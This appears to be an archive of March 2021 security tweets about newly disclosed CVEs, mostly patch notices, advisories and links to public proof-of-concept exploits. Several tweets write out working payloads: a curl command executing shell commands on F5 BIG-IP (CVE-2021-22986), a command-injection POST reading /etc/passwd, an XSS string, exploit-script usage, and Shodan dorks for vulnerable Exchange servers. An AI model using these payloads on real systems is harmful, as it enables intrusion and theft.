# TheHackersNews
**https://twitter.com/TheHackersNews/status/1377251617985110029 _at 2021-03-31, 13:29:08_**
<blockquote>
VMware releases security patches for newly-discovered critical server-side request forgery (CVE-2021-21975) and Arbitrary file write (CVE-2021-21983) vulnerabilities in its vRealize Operations Manager API.

https://t.co/ihMkKbdN0L
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0004.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1377251079390339075 _at 2021-03-31, 13:27:00_**
<blockquote>
There has been a new #vulnerability (CVE-2021-27137) reported in DD-WRT that could allow an unauthenticated attacker to overflow an internal buffer used by UPNP and trigger code execution attacks.

https://t.co/A2znJXSFGk
</blockquote>

* https://ssd-disclosure.com/ssd-advisory-dd-wrt-upnp-buffer-overflow/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# waleedassar
**https://twitter.com/waleedassar/status/1377176682826592258 _at 2021-03-31, 08:31:22_**
<blockquote>
Here is POC for CVE-2021-1699.

https://t.co/qJ4CxqmLoW
</blockquote>

* https://github.com/waleedassar/CVE-2021-1699

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1376393924034576386 _at 2021-03-29, 04:40:58_**
<blockquote>
Universal “netmask” npm package, used by 270,000+ projects, vulnerable to octal input data: server-side request forgery, remote file inclusion, local file inclusion, and more (CVE-2021-28918)

https://t.co/vU5W4udWua
</blockquote>

* https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# kwestin
**https://twitter.com/kwestin/status/1376332468266000385 _at 2021-03-29, 00:36:46_**
<blockquote>
Universal "netmask" npm package, used by 270,000+ projects, vulnerable to octal input data: server-side request forgery, remote file inclusion, local file inclusion, and more (CVE-2021-28918)  https://t.co/4MayUbmGXQ
</blockquote>

* https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1375701186976702464 _at 2021-03-27, 06:48:16_**
<blockquote>
Update your #iPhone, iPad, Apple Watch now!!!

Apple released a URGENT PATCH UPDATE for all its devices yesterday to fix another zero-day #vulnerability (CVE-2021-1879) that is being exploited in the wild.

Find details here: https://t.co/JJQFBzgLIn

#infosec #cybersecurity #tech
</blockquote>

* https://thehackernews.com/2021/03/apple-issues-urgent-patch-update-for.html

<table><tr>
<td>Quotes: <code>29</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>311</code></td>
<td>Favorites: <code>325</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1375051540864528388 _at 2021-03-25, 11:46:49_**
<blockquote>
GitHub - xiaopan233/Mybb-XSS_SQL_RCE-POC: Mybb associate CVE-2021-27890 &amp; CVE-2021-27889 to RCE poc - https://t.co/5Ssj4cEvjW
</blockquote>

* https://github.com/xiaopan233/Mybb-XSS_SQL_RCE-POC

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# JanmeyjaySharma
**https://twitter.com/JanmeyjaySharma/status/1374521379345768457 _at 2021-03-24, 00:40:08_**
<blockquote>
Unauthenticated Remote Command Execution Vulnerability [CVE-2021-22986]  - POC 😎🤓

#RCE #Exploit #ItTakesACrowd @Bugcrowd @Hacker0x01 https://t.co/adbDsEzDUi
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>200</code></td>
</tr></table>

---

# futurevuls
**https://twitter.com/futurevuls/status/1374262676000440322 _at 2021-03-23, 07:32:09_**
<blockquote>
F5から公開されたBIG-IP製品の脆弱性 CVE-2021-22986 ですが、今朝頃にPoCが公開されました。
未対応の方、緩和策が実施されていない方、は対応をお早めにお願いします。
- RCE：認証されていない第三者が任意のコードを実行可能です。
- 既に悪用の兆候はあるため、早急な対応が必要です。
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# coder_rc
**https://twitter.com/coder_rc/status/1374028438214873091 _at 2021-03-22, 16:01:22_**
<blockquote>
CVE-2021-26069:
Affected versions of Atlassian Jira Server and Data Center allow unauthenticated remote attackers to download temporary files and enumerate project keys via an Information Disclosure vulnerability in the /rest/api/1.0/issues/{id}/ActionsAndOperations API endpoint.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1373918661988159494 _at 2021-03-22, 08:45:09_**
<blockquote>
A high severity RCE #vulnerability (CVE-2021-26295) has been found in Apache OFBiz that could let unauthenticated, remote hackers seize control of the enterprise resource planning (ERP) systems.

Details: https://t.co/E9uAMAqz5y

Patch released, update your software immediately.
</blockquote>

* https://thehackernews.com/2021/03/critical-rce-vulnerability-found-in.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1373677326077108227 _at 2021-03-21, 16:46:10_**
<blockquote>
F5 BIG-IP iControl REST unauthenticated RCE — (CVE-2021-22986) nuclei templates by @iamnoooob @rootxharsh 

Template details —https://t.co/J94Jj0E3eY

#hackwithautomation #appsec #pentest https://t.co/ggV2pjECN2
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22986.yml

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>386</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1373551043787771904 _at 2021-03-21, 08:24:22_**
<blockquote>
RT @h4x0r_dz: RCE Exploit in BIG-IP. 
CVE-2021-22986, CVE-2021-22987

python f5_rce.py -u https://ip_target
python f5_rce.py -f ip_list.txt…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>550</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1373365080876810246 _at 2021-03-20, 20:05:25_**
<blockquote>
RCE Exploit in BIG-IP. 
CVE-2021-22986, CVE-2021-22987

python f5_rce.py -u https://ip_target
python f5_rce.py -f ip_list.txt
python f5_rce.py -c "$commend"

POC: https://t.co/mkjCuPVR0y

#bugbountytip #BugBounty #infosec https://t.co/uHZqdzTFUi
</blockquote>

* https://github.com/h4x0r-dz/RCE-Exploit-in-BIG-IP

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>15</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>550</code></td>
<td>Favorites: <code>1320</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1373206181955653632 _at 2021-03-20, 09:34:01_**
<blockquote>
F5 BIG-IP iControl Unauthenticated Remote Command Execution (CVE-2021-22986) POC 😎

#RCE #Exploit https://t.co/87fvLVu74I
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# Unit42_Intel
**https://twitter.com/Unit42_Intel/status/1373017186818781190 _at 2021-03-19, 21:03:01_**
<blockquote>
We are now observing the Mirai variant from https://t.co/ZDTVwtdYlq attempting to exploit CVE-2021-22986, an unauthenticated RCE in F5 BIG-IP &amp; BIG-IQ products, and CVE-2020-28188. 

IOCs for the new activity available at:
https://t.co/bc0IySEAEk https://t.co/ZsUqxq60XO
</blockquote>

* https://bit.ly/3cCK1Dd
* https://bit.ly/2P40CI9

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# n0x08
**https://twitter.com/n0x08/status/1372617747633299458 _at 2021-03-18, 18:35:47_**
<blockquote>
An important thing to remember is back in July, attackers were using CVE-2020-5902 to create backdoor admin accounts.

If the systems were patched, but these accounts left in place, these new attacks become all the more dangerous as you don't need SSRF to get an auth'd session.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# 0xACK
**https://twitter.com/0xACK/status/1372606642752266246 _at 2021-03-18, 17:51:40_**
<blockquote>
Full exploit chain of F5 iControl REST RCE (CVE-2021-22986) is likely to be public soon, which is why @buffaloverflow and I just published an overview of detection methods for successful SSRF + auth bypass + RCE. https://t.co/988Je0Makj
</blockquote>

* https://research.nccgroup.com/2021/03/18/rift-detection-capabilities-for-recent-f5-big-ip-big-iq-icontrol-rest-api-vulnerabilities-cve-2021-22986/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1372543655110610946 _at 2021-03-18, 13:41:22_**
<blockquote>
Root cause analysis for CVE-2021-26411, the IE MSHTML use-after-free/double free vulnerability:

https://t.co/lk7eN6dEh2
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-26411.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1372392693989445635 _at 2021-03-18, 03:41:30_**
<blockquote>
F5 BIG-IP iControl RCE (CVE-2021-22986)

execute arbitrary system commands
create or delete files
disable services

PoC #1
curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'

https://t.co/6i3IYFeHt5 https://t.co/yzD1k3ClTF
</blockquote>

* https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>30</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>387</code></td>
<td>Favorites: <code>789</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1371991607545827328 _at 2021-03-17, 01:07:44_**
<blockquote>
CVE-2021-22986 (F5 iControl REST RCE).

PoC
https://t.co/dfaNm5rS09 https://t.co/qjgquJzPIe
</blockquote>

* https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1370576411648352260 _at 2021-03-13, 03:24:15_**
<blockquote>
🔥 WARNING — A second Google #Chrome browser zero-day #vulnerability (CVE-2021-21193) has been found actively exploited in-the-wild.

Read details: https://t.co/EFt5OinSKa

Update your browser for Windows, Mac, and #Linux systems to 89.0.4389.90 or the latest available version.
</blockquote>

* https://thehackernews.com/2021/03/another-google-chrome-0-day-bug-found.html

<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>301</code></td>
<td>Favorites: <code>354</code></td>
</tr></table>

---

# threedr3am1
**https://twitter.com/threedr3am1/status/1370560071659253761 _at 2021-03-13, 02:19:19_**
<blockquote>
There are 11 CVEs in xstream 1.4.16. I have reported 5 security vulnerabilities to the authorities, including DoS, SSRF, ReDoS, and RCE. The numbers are: CVE-2021-21341, CVE-2021-21347, CVE-2021-21348 , CVE-2021-21349, CVE-2021-21350

https://t.co/yq0S5uDmDA https://t.co/qzvN4zuPgq
</blockquote>

* http://x-stream.github.io/security.html

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# 3XS0
**https://twitter.com/3XS0/status/1370458184914206725 _at 2021-03-12, 19:34:27_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;

#XSS https://t.co/cGM957RGCU
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# j00ru
**https://twitter.com/j00ru/status/1370364905862352901 _at 2021-03-12, 13:23:48_**
<blockquote>
Fixed this month: CVE-2021-26863, a race condition/use-after-free in win32k.sys demonstrating @tiraniddo's excellent Memory Access Trapping technique in Windows (https://t.co/mJrEGGIHLy). It was a fun exercise to do some auditing in search of the specific code pattern.
</blockquote>

* https://googleprojectzero.blogspot.com/2021/01/windows-exploitation-tricks-trapping.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>193</code></td>
</tr></table>

---

# zhzyker
**https://twitter.com/zhzyker/status/1369946740665675776 _at 2021-03-11, 09:42:10_**
<blockquote>
#CVE CVE-2021-26855 CVE-2021-27065
Microsoft Exchange From SSRF to RCE🤔
https://t.co/v52fC2vcq1 --&gt; webshell --&gt; rce --&gt; down xx.ps1  --&gt; cobaltstrike --&gt; exit
https://t.co/v52fC2vcq1 provided by @_0xf4n9x_ 👍 https://t.co/kf4c5VYmqy
</blockquote>

* http://exp.py
* http://exp.py

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1369892308108255233 _at 2021-03-11, 06:05:52_**
<blockquote>
A critical pre-auth RCE flaw (CVE-2021-22986) has been discovered in the F5's Big-IP and BIG-IQ #software — Patch ASAP!

Read details: https://t.co/dYFN1aSNOB

Besides this, a few other newly reported flaws also result in a denial of service (DoS) attack.

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2021/03/critical-pre-auth-rce-flaw-found-in-f5.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>169</code></td>
</tr></table>

---

# buffaloverflow
**https://twitter.com/buffaloverflow/status/1369692589193039874 _at 2021-03-10, 16:52:15_**
<blockquote>
Here is the advisory for CVE-2021-21518, which is a Local Privilege Escalation vulnerability I found in Dell SupportAssist

 https://t.co/VqeGRB1gu0 https://t.co/45U0HWFpdz
</blockquote>

* https://research.nccgroup.com/2021/03/10/technical-advisory-dell-supportassist-local-privilege-escalation-cve-202-21518/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>100</code></td>
<td>Favorites: <code>257</code></td>
</tr></table>

---

# ESETresearch
**https://twitter.com/ESETresearch/status/1369634459025346562 _at 2021-03-10, 13:01:16_**
<blockquote>
#ESETresearch documents its findings following recent pre-auth RCE vulnerability impacting Exchange servers globally. We identified at least 10 APT groups using exploits for CVE-2021-26855, CVE-2021-26857, CVE-2021-26858, and CVE-2021-27065. Read more: https://t.co/I2hP1HT576 1/5
</blockquote>

* https://www.welivesecurity.com/2021/03/10/exchange-servers-under-siege-10-apt-groups/

<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>207</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1369633239845937158 _at 2021-03-10, 12:56:25_**
<blockquote>
Analysis of ProxyLogon
A perfect combination of CVE-2021-26855 and  27065 
Kudo
Perfect bugs of 2021!
Have fun ;)
https://t.co/LNymwabGT5
</blockquote>

* https://link.medium.com/uyuaffLPveb

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>220</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1369545928340877314 _at 2021-03-10, 07:09:28_**
<blockquote>
Microsoft Exchange Proxylogon Exploit Chain.

CVE-2021-26857 : insecure deserialization vulnerability
CVE-2021-26855 : Server-Side Request Forgery
CVE-2021-27065 : Arbitrary File Write
https://t.co/h1PnhZ3ySW https://t.co/J77rZh6R3C
</blockquote>

* https://www.praetorian.com/blog/reproducing-proxylogon-exploit/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# HonkHase
**https://twitter.com/HonkHase/status/1369405693078482947 _at 2021-03-09, 21:52:14_**
<blockquote>
Microsoft patchday starring:
* CVE-2021-26897 – Windows DNS Server Remote Code Execution Vulnerability
* CVE-2021-26867 – Windows Hyper-V Remote Code Execution Vulnerability
* CVE-2021-27076 – Microsoft SharePoint Server Remote Code Execution Vulnerability
https://t.co/lvwBYKSyNG https://t.co/e7bsCOOz72
</blockquote>

* https://www.thezdi.com/blog/2021/3/9/the-march-2021-security-update-review

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1369349514658676736 _at 2021-03-09, 18:09:00_**
<blockquote>
Microsoft issues patch for the Internet Explorer MSHTML bug disclosed by Enki back in February. They had said that it had been used by NK to target security researchers. CVE-2021-26411 https://t.co/a4LgVLeVeo

https://t.co/5n620E9cuT
</blockquote>

* https://enki.co.kr/blog/2021/02/04/ie_0day.html
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26411

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---

# Mormoroth
**https://twitter.com/Mormoroth/status/1369298066600300548 _at 2021-03-09, 14:44:34_**
<blockquote>
این باگ( CVE-2021-26855 ) که روی Exchange اومده رو جدی بگیرید. از شرکت کوچیک و هولدینگ تا خطوط هواپیمایی دارن از Microsoft Exchange Server استفاده میکنن و اکثرن آسیب پذیرن. تستش کردم و فکر کنم تا الان اگه داشتید دسترسی ازتون نگرفته باشن شانس آوردین https://t.co/NmuzJ8SGI3
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1369254600612708362 _at 2021-03-09, 11:51:50_**
<blockquote>
Thousands of US companies have been hacked by Chinese hackers using This RCE.

Microsoft Exchange Server Remote Code Execution CVE-2021-26855 Exploit.
https://t.co/4UNlGK3ewf

#BugBounty #RCE #infosec https://t.co/YKWOCIKjXk
</blockquote>

* https://github.com/GreyOrder/CVE-2021-26855

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>218</code></td>
<td>Favorites: <code>510</code></td>
</tr></table>

---

# cycatz2
**https://twitter.com/cycatz2/status/1369162459739693057 _at 2021-03-09, 05:45:42_**
<blockquote>
Atlassian Jira unauthenticated user enumeration (CVE-2020-14181)!
 Versions affected:
Jira &lt; 7.13.6
8.0.0 ≤ Jira &lt; 8.5.7
8.6.0 ≤ Jira &lt; 8.12.0
username=john ---&gt; user does not exist
username=admin ---&gt;  jira-robot
#bugbounty #bugbountytip #bugbountytips #pentesting https://t.co/WaH6utohPw
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1368964741125836804 _at 2021-03-08, 16:40:03_**
<blockquote>
GHSL-2020-166: Use-after-free (UaF) in Chrome PaymentCredential - CVE-2020-16018 https://t.co/JeaZiVbO38
</blockquote>

* https://github.co/3sYRjI1

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# amanmahendra_
**https://twitter.com/amanmahendra_/status/1368652217645867008 _at 2021-03-07, 19:58:11_**
<blockquote>
Shodan Dork For CVE-2021-26855

1.title:"Outlook Web App"
2."Set-Cookie: ClientId="

#bugbountytips #bugbountytip #ssrf #togetherwehitharder  #hackerone #bugcrowd #CVE-2021-26855
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1368109257879547904 _at 2021-03-06, 08:00:39_**
<blockquote>
Detecting Microsoft Exchange Server SSRF — (CVE-2021-26855) using nuclei templates.

Thanks to @Madrobot_ for quickly sharing the template for this 🙌🙌

#hackwithautomation #appsec #pentest #proxylogon https://t.co/6vseXzDReX
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>316</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1368104784314662913 _at 2021-03-06, 07:42:53_**
<blockquote>
Nuclei now includes CVE-2021-26855 (Microsoft Exchange Server Remote Code Execution Vulnerability) https://t.co/yEOsxbcEBi
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-26855.yaml

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1367370169224364033 _at 2021-03-04, 07:03:47_**
<blockquote>
VMware releases security patch for a remote code execution #vulnerability (CVSSv3 8.6) (CVE-2021-21978) affecting VMware View Planner.

https://t.co/dYev7CFQlj
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0003.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1367318331032694792 _at 2021-03-04, 03:37:48_**
<blockquote>
Anatomy of an Exploit: RCE with CVE-2020-1350 (SIGRed)

PoC released: https://t.co/Zj4tugitU6

via @GraplSec https://t.co/31iwebqPSh
</blockquote>

* https://www.graplsecurity.com/post/anatomy-of-an-exploit-rce-with-cve-2020-1350-sigred

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---

# osama_hroot
**https://twitter.com/osama_hroot/status/1367258907601698816 _at 2021-03-03, 23:41:40_**
<blockquote>
Unauthenticated RCE in VMware View Planner (#CVE-2021-21978) POC

Advisory: https://t.co/RY7OHGu28K https://t.co/9BXk5vfqEH
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0003.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>175</code></td>
<td>Favorites: <code>429</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1367247281687248896 _at 2021-03-03, 22:55:28_**
<blockquote>
.@chompie1337 has published the first public, working RCE exploit for CVE-2020-1350 (Windows DNS server vuln). Tested, works great. https://t.co/eHv65yvxjV
</blockquote>

* https://www.graplsecurity.com/post/anatomy-of-an-exploit-rce-with-cve-2020-1350-sigred

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1367167985560014853 _at 2021-03-03, 17:40:23_**
<blockquote>
CVE-2021-23132: Joomla com_media allowed paths that are not intended for image uploads to RCE.

PoC
https://t.co/hGCx8aIPsB https://t.co/rSgYaycqH0
</blockquote>

* https://github.com/HoangKien1020/CVE-2021-23132

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# _Icewall
**https://twitter.com/_Icewall/status/1367153757230931969 _at 2021-03-03, 16:43:50_**
<blockquote>
CVE-2020-13558 Webkit AudioSourceProviderGStreamer use-after-free vulnerability
Advisory : https://t.co/IP0AS63mfl
</blockquote>

* https://talosintelligence.com/vulnerability_reports/TALOS-2020-1172

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1367110116311322624 _at 2021-03-03, 13:50:26_**
<blockquote>
ClusterEngine V4.0 RCE (CVE-2020-21224)

POC:
POST /login.php

op=login&amp;username=;`cat /etc/passwd`&amp;password="

Ref:https://t.co/8bV9s3xT4x https://t.co/s0IXjkqAKn
</blockquote>

* https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# pentest_swissky
**https://twitter.com/pentest_swissky/status/1366979648907743232 _at 2021-03-03, 05:12:00_**
<blockquote>
WINDOWS KERNEL ZERO-DAY EXPLOIT (CVE-2021-1732) IS USED BY BITTER APT IN TARGETED ATTACK https://t.co/gEMIg0vxoB
</blockquote>

* https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>211</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1366895005772693510 _at 2021-03-02, 23:35:39_**
<blockquote>
Chrome 89 was released today.

Comes with a zero-day fix (CVE-2021-21166). As always, zero details on who's exploiting it.

https://t.co/NT2LbraHjF https://t.co/KdXvalrZpc
</blockquote>

* https://chromereleases.googleblog.com/2021/03/stable-channel-update-for-desktop.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1366878579368157188 _at 2021-03-02, 22:30:23_**
<blockquote>
I want to be the first before Google researchers to report that there's also a Chrome 0day in the wild. CVE-2021-21166
https://t.co/0jGPFtJlPF
</blockquote>

* https://chromereleases.googleblog.com/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1366800284563963907 _at 2021-03-02, 17:19:16_**
<blockquote>
My first ever blog post: Anatomy of an Exploit: RCE CVE-2020-1350 #SIGRed. RCE PoC included, for research purposes. This was my first userland Windows heap exploit and I hope a deep dive into the process will help others. Patch or apply the workaround. https://t.co/CFRTs7Wdvs
</blockquote>

